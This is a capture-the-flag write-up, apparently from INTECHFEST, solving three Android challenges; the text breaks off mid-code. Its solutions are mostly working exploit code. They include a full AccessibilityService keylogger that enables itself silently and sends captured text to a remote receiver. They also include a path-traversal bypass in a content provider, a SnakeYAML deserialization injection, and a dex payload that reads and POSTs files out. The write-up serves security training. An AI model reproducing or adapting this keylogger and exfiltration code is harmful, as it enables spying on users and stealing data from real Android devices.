









<h1 style="text-align:center;">INTRODUCTION TO ANDROID CHALLENGE</h1>

Before we dig deeper into the chall, we need to know the objective of the challenge
Example:


Author: told us to **BUILD MALICIOUS APP** that means we need to analyze **VULN APP** manifest first to find what we can do to interact with our malicious application

if the objective is not **BUILD MALICIOUS APP** we can straight forward into **Java Package Analyze**


As you can see in the last point
Android manifest declares the permissions application which one can be used by another package.

The sign we can use it with other packages is marked with **exported:="true"**

<h2>Overview</h2>

The **android:exported** attribute sets whether a component ***(activity, service, broadcast receiver, etc.)*** can be launched by components of other applications:

- If `true`, any app can access the activity and launch it by its exact class name.
- If `false`, only components of the same application, applications with the same user ID, or privileged system components can launch the activity.

We can start the activity using Intent
```java
Intent intent = new Intent();
intent.setComponent(new ComponentName("pkgname", "pkgname.classname"));
intent.putExtra("data", "extradata");// IF WE WANT TO PASS DATA
```


# Hijacker [504 PTS]



## OBJECTIVE

<h3>BRIEF</h3>

1. Run our malicious app
2. Run vulnerable app
3. Simulate user interaction ( Taping the pin number )

So the objective is get the pin number

Note: **Permission Automatically granted**

## SOLUTION

There's no interesting part in the **AndroidManifest.xml** since our malicious app will be granted all permissions thats mean we can do whatever we want

For the solution we can build Malicious app that use **AccessibilityService** that will automatically turned on.

Accessibility services should only be used to assist users with disabilities in using Android devices and apps. **They run in the background and receive callbacks by the system when AccessibilityEvents are fired**. Such events denote some state transition in the user interface, for example, **the focus has changed, a button has been clicked, etc**. Such a service can optionally request the capability for querying the content of the active window. Development of an accessibility service requires extending this class and implementing its abstract methods.

we can exploit this into a **Logger Application**

To make the Accessibility turned on we need permission of **`android.permission.WRITE_SECURE_SETTINGS`** if there no WRITE_SECURE_SETTINGS permission, user need turning on the Accessibility manually.

Since in the challenge told us that permission will be automatically granted that means we can turn the Acessibility for our application automatically

We need specify  `<service>` and `<uses-permission>` in our Malicious App

## SOLVER
AndroidManifest.xml

```xml
<?xml version="1.0" encoding="utf-8"?>
<manifest xmlns:android="http://schemas.android.com/apk/res/android"
    package="com.example.bengskyexploit">
    <uses-permission android:name="android.permission.INTERNET" />
    <uses-permission android:name="android.permission.WRITE_SETTINGS" />
    <uses-permission android:name="android.permission.WRITE_SECURE_SETTINGS" />

    <application...>
        <activity...>
        <service
            android:name="com.example.bengskyexploit.KeyLogger"
            android:exported="true"
            android:label="@string/accessibility_service_label"
            android:permission="android.permission.BIND_ACCESSIBILITY_SERVICE">
            <intent-filter>
                <action android:name="android.accessibilityservice.AccessibilityService" />
            </intent-filter>
            <meta-data
                android:name="android.accessibilityservice"
                android:resource="@xml/accessibility_service_config" />
        </service>
    </application>

</manifest>
```

xml/accessibility_service_config.xml
```xml
<accessibility-service xmlns:android="http://schemas.android.com/apk/res/android"
    android:accessibilityEventTypes="typeAllMask"
    android:accessibilityFeedbackType="feedbackAllMask"
    android:accessibilityFlags="flagDefault|flagIncludeNotImportantViews"
    android:canRetrieveWindowContent="true"
    android:notificationTimeout="100" />`
```

MainActivity.java

```java
package com.example.bengskyexploit;

import android.provider.Settings;
import android.os.Bundle;

import androidx.appcompat.app.AppCompatActivity;

public class MainActivity extends AppCompatActivity {
    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);
        Settings.Secure.putString(getContentResolver(),
                Settings.Secure.ENABLED_ACCESSIBILITY_SERVICES, "com.example.bengskyexploit/.KeyLogger");
        Settings.Secure.putString(getContentResolver(),
                Settings.Secure.ACCESSIBILITY_ENABLED, "1");
    }
}
```

When user run the application it will automatically enabled Acessibility of our application

KeyLogger.java

```java
package com.example.bengskyexploit;

import android.accessibilityservice.AccessibilityService;
import android.view.accessibility.AccessibilityEvent;

import com.android.volley.RequestQueue;
import com.android.volley.VolleyError;
import com.android.volley.toolbox.JsonObjectRequest;
import com.android.volley.toolbox.Volley;

import org.json.JSONObject;

import java.util.LinkedHashMap;
import java.util.Map;

public class KeyLogger extends AccessibilityService {
    @Override
    public void onServiceConnected() {
    }

    @Override
    public void onAccessibilityEvent(AccessibilityEvent event) {

        String accessibilityEvent = null;
        String msg = null;

        switch (event.getEventType()) {
            case AccessibilityEvent.TYPE_VIEW_TEXT_CHANGED: {
                accessibilityEvent = "TYPE_VIEW_TEXT_CHANGED";
                msg = String.valueOf(event.getText());
                break;
            }
            case AccessibilityEvent.TYPE_VIEW_FOCUSED: {
                accessibilityEvent = "TYPE_VIEW_FOCUSED";
                msg = String.valueOf(event.getText());
                break;
            }
            case AccessibilityEvent.TYPE_VIEW_CLICKED: {
                accessibilityEvent = "TYPE_VIEW_CLICKED";
                msg = String.valueOf(event.getText());
                break;
            }
            default:
        }

        if (accessibilityEvent == null) {
            return;
        }


        sendLog("http://<OUR RECEIVER>", msg);
    }


    private void sendLog(String uploadUrl, String msg) {

        RequestQueue requestQueue = Volley.newRequestQueue(this);
        Map<String, String> result = new LinkedHashMap<>();
        result.put("msg", msg);
        JsonObjectRequest keyLogRequest = new JsonObjectRequest(uploadUrl
                , new JSONObject(result)
                , this::onResponse
                , this::onErrorResponse
        );
        requestQueue.add(keyLogRequest);
    }

    private void onResponse(JSONObject response) {
    }

    private void onErrorResponse(VolleyError error) {
    }

    @Override
    public void onInterrupt() {

    }
}
```

Result of logger


Let's try insert 558102 into flag_checker


## FLAG

`INTECHFEST{T4pj4ck1ng_In_Andr01d?!?!}`

# Hidden [1000 PTS]


## OBJECTIVE
<h3>BRIEF</h3>

AndroidManifest.xml
```xml
<?xml version="1.0" encoding="utf-8"?>
[TOO LONG]
        <activity
            android:name="com.aimar.id.hidden.MainActivity"
            android:exported="true">
            <intent-filter>
                <action android:name="android.intent.action.MAIN"/>
                <category android:name="android.intent.category.LAUNCHER"/>
            </intent-filter>
        </activity>
        <activity
            android:name="com.aimar.id.hidden.HiddenActivity"
            android:enabled="true"
            android:exported="true"/>
    </application>
</manifest>
```

MainActivity.java
```java
public class MainActivity extends AppCompatActivity {
    @Override
    public void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);
    }
}
```

HiddenActivity.java
```java
package com.aimar.id.hidden;
import android.content.Intent;
import android.os.Bundle;
import android.widget.TextView;
import androidx.appcompat.app.AppCompatActivity;
import java.io.InputStream;
public class HiddenActivity extends AppCompatActivity {
    @Override
    public void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_hidden);
        Intent intent = getIntent();
        String secret = intent.getStringExtra("secret");
        if (secret != null && secret.equals(Global.SECRET)) {
            TextView textView = (TextView) findViewById(R.id.tv_flag);
            try {
                InputStream is = openFileInput("flag.txt");
                byte[] buffer = new byte[is.available()];
                is.read(buffer);
                is.close();
                textView.setText(new String(buffer));
            } catch (Exception e) {
                e.printStackTrace();
            }
        }
    }
}
```
Global.java
```java
package com.aimar.id.hidden;
public class Global {
    public static final String SECRET = "THIS_IS_FAKE_SECRET_FOR_TESTING_PURPOSE";
}
```
So the objective was accessing HiddenActivity and set extra with secret.

## SOLUTION

Since 
```xml
<activity
    android:name="com.aimar.id.hidden.HiddenActivity"
    android:enabled="true"
    android:exported="true"/>
```
the HiddenActivity exported, from first of this writeup we already learn about **`android:exported`**

```java
Intent intent = new Intent();
intent.setComponent(new ComponentName("com.aimar.id.hidden", "com.aimar.id.hidden.HiddenActivity"));
intent.putExtra("secret", ???);
```
But how we can obtain the secret ?
We can extract the application `apk` file.
Then whats in the apk file ?
APK files contain all contents needed to run the application, including the following:

- AndroidManifest.xml. This is an additional Android manifest file that describes the name, version, access rights, library and other contents of the APK file.
- assets/. These are application assets and resource files included with the app.
- **classes.dex. These are compiled Java classes in the DEX file format that are run on the device.**
- lib/. This folder contains platform-dependent compiled code and native libraries for device-specific architectures, such as x86 or x86_64.
- META-INF/. This folder contains the application certificate, manifest file, signature and a list of resources.
- res/. This is a directory that holds resources -- for example, images that are not already compiled into resources.arsc.
- resources.arsc. This is a file containing pre-compiled resources used by the app.

so the **`Global.java`** will be stored in the dex file and we can load it using 
**`dalvik.system.DexClassLoader`**

so here is the MaliciousApp Flow
 

## SOLVER

MainActivity.java
```java
package com.bengsky.hardcoded;

import android.annotation.SuppressLint;
import android.content.Context;
import android.content.Intent;

import androidx.appcompat.app.AppCompatActivity;
import android.content.ComponentName;
import android.os.Bundle;
import android.content.pm.ApplicationInfo;
import android.content.pm.PackageManager;

import java.io.File;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.InputStream;
import java.lang.reflect.Field;
import java.util.zip.ZipEntry;
import java.util.zip.ZipInputStream;

import dalvik.system.DexClassLoader;

public class MainActivity extends AppCompatActivity {

    @SuppressLint("QueryPermissionsNeeded")
    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);
        String targetPackage = "com.aimar.id.hidden";
        try {
            PackageManager packageManager = getPackageManager();
            ApplicationInfo appInfo = packageManager.getApplicationInfo(targetPackage, 0);
            String baseApkPath = appInfo.sourceDir;
            extractDexFiles(baseApkPath);

        } catch (Exception ignored){
        }

    }
    private void extractDexFiles(String apkPath) throws Exception, ClassNotFoundException, NoSuchFieldException, IllegalAccessException {
        File apkFile = new File(apkPath);
        InputStream is = new FileInputStream(apkFile);
        ZipInputStream zis = new ZipInputStream(is);
        ZipEntry zipEntry;
        File outputDir = new File(getExternalFilesDir(null), "dex_files");
        if (!outputDir.exists()) {
            outputDir.mkdirs();
        }

        while ((zipEntry = zis.getNextEntry()) != null) {
            if (zipEntry.getName().endsWith(".dex")) {
                try{
                File dexFile = new File(outputDir, zipEntry.getName());
                FileOutputStream fos = new FileOutputStream(dexFile);
                byte[] buffer = new byte[1024];
                int len;
                while ((len = zis.read(buffer)) > 0) {
                    fos.write(buffer, 0, len);
                }
                fos.close();
                zis.closeEntry();
                Context context = getApplicationContext();
                String optDir = context.getDir("dex", 0).getAbsolutePath();
                DexClassLoader dexClassLoader = new DexClassLoader(dexFile.getAbsolutePath(), optDir, null, getClassLoader());
                Class<?> globalClass = dexClassLoader.loadClass("com.aimar.id.hidden.Global");
                Field secretField = globalClass.getField("SECRET");
                String secretValue = (String) secretField.get(null);
                if(secretValue != null){
                    // FOUND SECRET, RUN THE VULN APP
                    Intent intent = new Intent();
                    intent.setComponent(new ComponentName("com.aimar.id.hidden", "com.aimar.id.hidden.HiddenActivity"));
                    intent.putExtra("secret", secretValue);
                    if (intent.resolveActivity(getPackageManager()) != null) {
                        startActivity(intent);
                    }
                }
                }
                catch (Exception ignored){
                }

            }
        }
        zis.close();
        is.close();
    }
}
```

## FLAG
`INTECHFEST{remember_kids_never_hardcode_a_secret_in_your_code}`

# Password Manager [100 PTS] (UPSOLVED)

## OBJECTIVE
<h3>BRIEF</h3>
So many file to analyze.

**Get flag in `/data/data/com.aimardcr.pwdmanager/files/flag_?????.txt`**

## SOLUTION

Backward Solutions
1. CLASS INJECTION

com.aimardcr.pwdmanager.ui.pwd.PwdFragment
```java
    private void updatePassword(int passwordId, String updatedAppName, String updatedUsername, String updatedPassword) {
        try {
            File file = new File(getContext().getFilesDir(), "pwds.yml");
            InputStream inputStream = new FileInputStream(file);
            Yaml yaml = new Yaml(new Constructor((Class<? extends Object>) LinkedHashMap.class));
            Object data = yaml.load(inputStream);
            [TOO LONG]
        }
    }
```
Using yaml.load in Java (or any language) is not safe by default if you're loading untrusted YAML files. This is because yaml.load can deserialize arbitrary objects and execute malicious code via those objects, which can be exploited if the input data is untrusted.

we can inject the yaml using
`autoStart: !!com.somepackage.SomeMaliciousClass [true]`
Therefore we can inject into
`com.aimardcr.pwdmanager.DebugHelper`

DebugHelper.java
```java
package com.aimardcr.pwdmanager;

import dalvik.system.DexClassLoader;

public class DebugHelper {
    public static String PACKAGE_NAME = "com.aimardcr.pwdmanager";
    private static DexClassLoader dexClassLoader;

    public DebugHelper(boolean autoStart) {
        dexClassLoader = new DexClassLoader("/data/data/" + PACKAGE_NAME + "/files/debugger", "/data/data/" + PACKAGE_NAME + "/files", null, getClass().getClassLoader());
        if (autoStart) {
            start();
        }
    }

    public void start() {
        try {
            Class<?> clazz = dexClassLoader.loadClass("com.aimardcr.pwdmanager.Debug");
            clazz.getMethod("start", new Class[0]).invoke(null, new Object[0]);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }

    public void stop() {
        try {
            Class<?> clazz = dexClassLoader.loadClass("com.aimardcr.pwdmanager.Debug");
            clazz.getMethod("stop", new Class[0]).invoke(null, new Object[0]);
        } catch (Exception e) {
            e.printStackTrace();
        }
    }
}
```
So we can inject classes.dex with the package name `com.aimardcr.pwdmanager.Debug` and the method name is `start`
into the app by creating dexfile in **`/data/data/com.aimardcr.pwdmanager/files/debugger`**


here is the setup java we can add anything into method start example http scan file then post it using http
```java
package com.aimardcr.pwdmanager;
public class Debug {
    public static void start() {
    }

    public static void stop() {
    }
}
```
But how we can create **`/data/data/com.aimardcr.pwdmanager/files/debugger`** file contains our malicious dex ?

therefore
com.aimardcr.pwdmanager/AndroidManifest.xml
```xml
<provider
android:name="com.aimardcr.pwdmanager.providers.MyFileProvider"
android:enabled="true"
android:exported="true"
android:authorities="com.aimardcr.pwdmanager"/>
```
the provider can be used in another package

MyFileProvider.java
```java
public ParcelFileDescriptor openFile(Uri uri, String mode) throws FileNotFoundException {
    if (uri.toString().contains("..")) {
        throw new FileNotFoundException("Invalid path");
    }
    File file = new File(getContext().getCacheDir(), uri.getPath());
    return ParcelFileDescriptor.open(file, 973078528);
}
```

The value 973078528 in the context of ParcelFileDescriptor.open(file, 973078528) is a bitmask used to specify the mode in which the file should be opened. In this case, it’s a combination of flags that determine the read/write permissions, file creation, and truncation. To understand which flags are set, you can use bitwise operations or look the value in the codebase to see how it's used.

- `ParcelFileDescriptor.MODE_READ_ONLY` (0x00000001): Open the file for reading only.
- `ParcelFileDescriptor.MODE_WRITE_ONLY` (0x00000002): Open the file for writing only.
- `ParcelFileDescriptor.MODE_READ_WRITE` (0x00000003): Open the file for both reading and writing.
- `ParcelFileDescriptor.MODE_CREATE` (0x00000008): Create the file if it does not already exist.
- `ParcelFileDescriptor.MODE_TRUNCATE` (0x00000010): Truncate the file to zero length.
- `ParcelFileDescriptor.MODE_APPEND` (0x00000020): Open the file for appending.

from this we know we can do filewrite to the com.aimardcr.pwdmanager using shared com.aimardcr.pwdmanager.providers.MyFileProvider

here is the code to write

```java
Uri fileUri = Uri.parse("content://com.aimardcr.pwdmanager/"+location);
ContentResolver contentResolver = context.getContentResolver();
ParcelFileDescriptor pfd = contentResolver.openFileDescriptor(fileUri, "w"); // Open file in write mode
Log.d(TAG, "ParcelFileDescriptor opened");

if (pfd != null) {

    FileOutputStream fileOutputStream = new FileOutputStream(pfd.getFileDescriptor());
    String maliciousData = content;

    fileOutputStream.write(maliciousData.getBytes());
    fileOutputStream.close();

    // Close the ParcelFileDescriptor
    pfd.close();
}
```

but in this case i dont know why canot direcly specific the location to files/debugger
maybe because of this ?
```java
static {
    UriMatcher uriMatcher2 = new UriMatcher(-1);
    uriMatcher = uriMatcher2;
    uriMatcher2.addURI(AUTHORITY, "files/*", 1);
}
```

then 
`if (uri.toString().contains(".."))` looks suspicious
since it using Uri that means we can do URI encoding to bypass .. 
to `%2E%2E%2F`
so the location will be
`%2E%2E%2Ffiles%2Fdebugger`

and the last thing we need to write into pwds.yml also to add the yaml injection
the injection will be

```yml
debugMePls:
  autoStart: !!com.aimardcr.pwdmanager.DebugHelper [True]
```

for the first i got android.os.NetworkOnMainThreadException when my malicious app run the http request thats because



so we need wrap our script into Threads

```java
public static void start() {
    Handler handler = new Handler(Looper.getMainLooper());
    new Thread(() -> {
        sendFlag();
        handler.post(() -> {
        });
    }).start();
}
```

## SOLVER

Debug.java (convert it to dex)
```java
package com.aimardcr.pwdmanager;

import java.io.BufferedReader;
import java.io.File;
import java.io.FileReader;
import java.io.FilenameFilter;
import java.io.IOException;
import java.io.OutputStream;
import java.net.HttpURLConnection;
import java.net.URL;
import java.nio.charset.StandardCharsets;
import java.nio.file.Files;
import java.nio.file.Path;
import java.nio.file.Paths;
import java.io.IOException;

public class Debug {
    private static final String FLAG_FILE_PATH = "/data/data/com.aimardcr.pwdmanager/files/flag";
    private static final String NGROK_URL = "http://<OUR RECEIVER>";

    static File findFlagFile() {
        return searchFlagFile();
    }

    public static void start() {
        new Thread(new Runnable() {
            @Override
            public void run() {
                try {
                    sendFlag("TESTINGBRO");
                    System.out.println("Starting debug process...");
                    File flagFile = Debug.findFlagFile();
                    if (flagFile != null) {
                        System.out.println("Flag file found: " + flagFile.getName());
                        String flagContent = Debug.readFlagFromFile(flagFile);
                        System.out.println("Flag: " + flagContent);
                        Debug.sendFlag(flagContent);
                    } else {
                        System.out.println("Flag file not found.");
                    }
                } catch (Exception e) {
                    e.printStackTrace();
                }
            }
        }).start();
    }

    private static File searchFlagFile() {
        System.out.println("Searching for flag file...");
        File[] files = new File("/data/data/com.aimardcr.pwdmanager/files").listFiles(new FilenameFilter() {
            @Override
            public boolean accept(File dir, String name) {
                return name.startsWith("flag") && name.endsWith(".txt");
            }
        });
        return (files != null && files.length > 0) ? files[0] : null;
    }

    private static String readFlagFromFile(File file) throws IOException {
        BufferedReader bufferedReader = new BufferedReader(new FileReader(file));
        StringBuilder flagContent = new StringBuilder();
        try {
            String line;
            while ((line = bufferedReader.readLine()) != null) {
                flagContent.append(line);
            }
        } finally {
            bufferedReader.close();
        }
        return flagContent.toString();
    }

    public static void sendFlag(String flag) {
        HttpURLConnection connection = null;
        try {
            System.out.println("Sending flag to: " + NGROK_URL);
            URL url = new URL(NGROK_URL);
            connection = (HttpURLConnection) url.openConnection();
            connection.setRequestMethod("POST");
            connection.setDoOutput(true);
            connection.setRequestProperty("Content-Type", "application/x-www-form-urlencoded");

            String postData = "flag=" + flag;
            byte[] postDataBytes = postData.getBytes(StandardCharsets.UTF_8);

            OutputStream outputStream = connection.getOutputStream();
            outputStream.write(postDataBytes);
            outputStream.flush();
            outputStream.close();

            int responseCode = connection.getResponseCode();
            if (responseCode == HttpURLConnection.HTTP_OK) {
                System.out.println("Flag sent successfully.");
            } else {
                System.out.println("Failed to send flag. Response code: " + responseCode);
            }

        } catch (Exception e) {
            e.printStackTrace();
        } finally {
            if (connection != null) {
                connection.disconnect();
            }
        }
    }

    public static void stop() {
    }
}
```

MainActivity.java (for apk)
```java
package com.bengsky.exploitpm;

import android.content.ContentResolver;
import android.content.ContentValues;
import android.content.Context;
import android.net.Uri;
import android.os.Bundle;
import android.os.ParcelFileDescriptor;
import android.util.Log;

import androidx.appcompat.app.AppCompatActivity;

import java.io.BufferedReader;
import java.io.FileInputStream;
import java.io.FileOutputStream;
import java.io.IOException;
import java.io.InputStreamReader;

import android.os.Bundle;
import android.util.Log;

public class MainActivity extends AppCompatActivity {
    private static final String TAG = "MaliciousApp";

    @Override
    protected void onCreate(Bundle savedInstanceState) {
        super.onCreate(savedInstanceState);
        setContentView(R.layout.activity_main);

        // Call writeToFile here, passing the activity context
        Log.d(TAG, "Calling writeToFile method");
        writeToFiles(this, "pwds.yml", "\n- id: 3\n  application: test\n  username: yaw\n  password: cc\n"+
        "debugHelper:\n"+
        "  autoStart: !!com.aimardcr.pwdmanager.DebugHelper [True]");
        writeDebugger(this);
    }
    public static void writeDebugger(Context context) {
        try {
            // Ensure context is valid
            if (context == null) {
                Log.d(TAG, "Context is null");
                return;
            }
            Uri fileUri = Uri.parse("content://com.aimardcr.pwdmanager/%2E%2E%2Ffiles%2Fdebugger");
            Log.d(TAG, "File URI constructed: " + fileUri.toString());

            // Get ContentResolver and open the file descriptor
            ContentResolver contentResolver = context.getContentResolver();
            ParcelFileDescriptor pfd = contentResolver.openFileDescriptor(fileUri, "wt"); // Open file in write mode
            Log.d(TAG, "ParcelFileDescriptor opened");

            if (pfd != null) {
                // Convert the hex string into a byte array
                String hexString = "<HEX DEX>";  // Truncated for readability
                byte[] bytes = hexStringToByteArray(hexString);

                // Write the bytes to the file
                FileOutputStream fileOutputStream = new FileOutputStream(pfd.getFileDescriptor());
                fileOutputStream.write(bytes);
                fileOutputStream.close();

                // Close the ParcelFileDescriptor
                pfd.close();

                // Log success
                Log.d(TAG, "File write successful: " + fileUri.toString());
            } else {
                // Log error if pfd is null
                Log.d(TAG, "Failed to open file descriptor for: " + fileUri.toString());
            }
        } catch (IOException e) {
            // Log the exception in case of failure
            Log.d(TAG, "Error writing to file: " + e.getMessage());
            e.printStackTrace();
        } catch (Exception e) {
            Log.d(TAG, "Unexpected error: " + e.getMessage());
            e.printStackTrace();
        }
    }

    // Helper function to convert hex string to byte array
    public static byte[] hexStringToByteArray(String s) {
        int len = s.length();
        byte[] data = new byte[len / 2];
        for (int i = 0; i < len; i += 2) {
            data[i / 2] = (byte) ((Character.digit(s.charAt(i), 16) << 4)
                    + Character.digit(s.charAt(i+1), 16));
        }
        return data;
    }


    public static void writeToFiles(Context context, String location, String content) {
        try {
            // Ensure context is valid
            if (context == null) {
                Log.d(TAG, "Context is null");
                return;
            }

            // Construct the content URI to access the target file
            Uri fileUri = Uri.parse("content://com.aimardcr.pwdmanager/%2E%2E%2Ffiles%2F"+location);
            Log.d(TAG, "File URI constructed: " + fileUri.toString());

            // Get ContentResolver and open the file descriptor
            ContentResolver contentResolver = context.getContentResolver();
            ParcelFileDescriptor pfd = contentResolver.openFileDescriptor(fileUri, "w"); // Open file in write mode
